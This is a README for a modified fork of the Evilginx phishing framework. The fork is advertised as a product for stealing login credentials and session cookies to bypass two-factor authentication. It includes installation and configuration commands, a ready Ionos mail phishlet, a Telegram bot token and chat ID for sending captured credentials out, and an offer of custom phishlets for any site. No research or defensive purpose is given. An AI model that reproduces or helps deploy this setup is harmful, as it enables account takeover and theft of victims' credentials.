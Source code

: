 <p align="center">
  <img alt="Evilginx2 Logo" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-logo-512.png" height="160" />
  <p align="center">
    <img alt="Evilginx2 Title" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-title-black-512.png" height="60" />
  </p>
</p>

# Evilginx 3.4.0 - Modified by @D3m0nNotorious








# NEW VERSION AVAILABLE
(https://github.com/D3m0nNotorious/Evil-Ginxx-3-ALL-MOD-by-D3m0nNotorious.git)
# NEW VERSION





# NEW VERSION AVAILABLE
(https://github.com/D3m0nNotorious/Evil-Ginxx-3-ALL-MOD-by-D3m0nNotorious.git)
# NEW VERSION













This modified version can send logs to your telegram group chat.
Inside this modified version i have added free Ionos mail phishlet as proof of high quality product i have nothing to hide.
Incase u want more phishlets let me know we can do any website u want without any upfront payments.
https://t.me/HosterMSG

**Evilginx** is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection.


This version Google / Gsuite Cookie Interception Template/Phishlet In Action.
https://vimeo.com/931409763

Alternative video url:
https://www.flexclip.com/editor/app?id=9e89b4e3509603d00d53064b8058bcd1


How to install ?

On Ubuntu:

1. git clone https://github.com/D3m0nNotorious/Evil-Ginxx-3-ALL-MOD-by-D3m0nNotorious.git
2. cd Evil-Ginxx-3-ALL-MOD-by-D3m0nNotorious
3. cd build
4. chmod +rwx evilginx
5. ./evilginx -p ../phishlets/

Setup your configuration.

1. config domain something.com
2. cofig ipv4 external serverip
3. config ipv4 bind serverip
4. config unauth_url https://bots.here.redirected.com/
5. config autocert off/on

[ if ON free certificates is used, it can rate-limit your domain if u ask too much. ]
[ If OFF 
- Feature: Added support to load custom TLS certificates from a public certificate file and a private key file stored in `~/.evilginx/crt/sites/<hostname>/`. Will load `fullchain.pem` and `privkey.pem` pair or a combination of a `.pem`/`.crt` (public certificate) and a `.key` (private key) file. Make sure to run without `-developer` flag and disable autocert retrieval with `config autocert off`.
}


6.config webhook_telegram 7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y/-15604540645

7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y is a Token from Bot Father.
-15604540645 is a Chat ID inside your group.

Add to your Telegram group https://t.me/raw_data_bot and your Group Chat ID will be displayed.







## Help

In case you want to learn how to install and use **Evilginx**, please refer to online documentation available at:

https://help.evilginx.com


This tool is a successor to [Evilginx](https://github.com/kgretzky/evilginx), released in 2017, but i did modification in 2024.04.02 which used a custom version of nginx HTTP server to provide man-in-the-middle functionality to act as a proxy between a browser and phished website.
Present version is fully written in GO as a standalone application, which implements its own HTTP and DNS server, making it extremely easy to set up and use.
